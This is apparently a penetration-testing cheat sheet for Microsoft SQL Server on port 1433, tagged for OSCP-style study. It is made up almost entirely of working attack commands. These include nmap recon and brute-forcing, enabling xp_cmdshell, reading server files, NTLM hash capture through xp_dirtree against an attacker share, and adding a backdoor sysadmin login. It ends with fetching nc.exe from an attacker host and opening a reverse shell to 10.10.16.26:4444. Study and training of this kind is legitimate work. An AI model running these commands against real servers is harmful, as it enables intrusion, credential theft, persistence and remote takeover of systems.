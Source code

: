 ```yaml
---
title: "1443 - MsSQL"
classes: single
ribbon: LightBlue
categories:
  - notes
tags:
  - beginner
  - pentest
  - recon
  - oscp
  - mssql
toc: true
hide_title: true
excerpt: ""
---
```


**Microsoft SQL Server**

## Nmap Scripts

```
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.10.10.3
```

# Connecting to MsSQL from Windows

```
sqlcmd -S SRVMSSQL\SQLEXPRESS -U julio -P 'MyPassword!' -y 30 -Y 30
```
# Connecting to MsSQL from Linux

`Remember! after command type 'go'`

```
sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h

sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h
# Windows Authentication mechanism is used by the MSSQL server
```

# MsSQL Commands

| MSSQL Command                                                                                                      | Description                                                                                                                                        |
| ------------------------------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------------------------------- |
| `select @@version;`                                                                                                | Show DB version.                                                                                                                                   |
| `select user_name();`                                                                                              | Show current user.                                                                                                                                 |
| `SELECT name FROM master.dbo.sysdatabases`                                                                         | Show all available databases in MSSQL.                                                                                                             |
| `USE htbusers`                                                                                                     | Select a specific database in MSSQL (`htbusers`).                                                                                                  |
| `SELECT * FROM htbusers.INFORMATION_SCHEMA.TABLES`                                                                 | Show all available tables in the selected database (`htbusers`) in MSSQL.                                                                          |
| `SELECT * FROM users`                                                                                              | Select all available entries from the `users` table in the currently selected database in MSSQL.                                                   |
| `EXECUTE sp_configure 'show advanced options', 1`                                                                  | To allow advanced options to be changed.                                                                                                           |
| `EXECUTE sp_configure 'xp_cmdshell', 1`                                                                            | To enable the `xp_cmdshell` extended stored procedure.                                                                                             |
| `RECONFIGURE`                                                                                                      | To be used after each `sp_configure` command to apply the changes.                                                                                 |
| `xp_cmdshell 'whoami'`                                                                                             | Execute a system command (`whoami`) from the MSSQL server.                                                                                         |
| `SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents`                 | Read the content of a local file (`C:/Windows/System32/drivers/etc/hosts`) on the MSSQL server.                                                    |
| `EXEC master..xp_dirtree '\\\\10.10.110.17\share\'`                                                                | Display the directory and file structure of a network share (`\\\\10.10.110.17\share\`) using `xp_dirtree` in MSSQL (potential for hash stealing). |
| `EXEC master..xp_subdirs '\\\\10.10.110.17\share\'`                                                                | Display the subdirectories of a network share (`\\\\10.10.110.17\share\`) using `xp_subdirs` in MSSQL (potential for hash stealing).               |
| `SELECT srvname, isremote FROM sysservers`                                                                         | Identify linked servers configured in MSSQL and whether they are remote.                                                                           |
| `EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]` | Execute a query on the linked server (`[10.0.0.12\SQLEXPRESS]`) in MSSQL, identifying server name, version, user, and `sysadmin` role membership.  |
| `CREATE LOGIN hacker WITH PASSWORD = 'P@ssword123!'`                                                               | Create account.                                                                                                                                    |
| `EXEC sp_addsrvrolemember 'hacker', 'sysadmin'`                                                                    | Add sysadmin priv to account.                                                                                                                      |
## BruteForce

```
nmap -n -v -sV -Pn -p 1433 –script ms-sql-brute –script-args userdb=users.txt,passdb=passwords.txt $ip
```

## RCE with SQL Server

```
mssqlclient.py <domain>/<username>:<password>@$ip

mssqlclient.py bathry/admin:pss123@192.168.11.15
```

```
SQL> enable_xp_cmdshell 
# Enable Code Execution

SQL> xp_cmdshell copy \\10.10.16.26\gabbar\nc.exe %temp%\nc.exe 
# Copied the Nishang reverse shell to current directory

SQL> xp_cmdshell %temp%/nc.exe -e cmd.exe 10.10.16.26 4444
# Start
```


